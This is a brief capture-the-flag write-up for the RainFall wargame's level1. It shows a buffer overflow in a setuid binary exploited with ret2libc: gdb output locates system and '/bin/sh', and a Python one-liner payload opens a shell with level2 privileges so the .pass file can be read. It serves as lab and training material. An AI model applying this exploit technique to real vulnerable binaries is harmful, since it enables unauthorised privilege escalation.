

First I have decompile level1 with ghidra.



In the main func, we can see a get without protection so it is vulnerable to buffer overflow with a buffer of 76

Here is a code that show the adress of system and "/bin/sh" to get level1 rights.
```
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) print &system
$4 = (<text variable, no debug info> *) 0xb7e6b060 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

```
level1@RainFall:~$ ls -l level1
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

We can see that level1 is owned by level2 so if we can execut system /bin/sh we will have the same access rights has level2

So with the commande :
```
( python -c "print('X' * 76 + '\x60\xb0\xe6\xb7' + 'D' * 4 + '\x58\xcc\xf8\xb7')" ; cat ) | ./level1
```

We have access to a shell with level2 access right and get the .pass EZ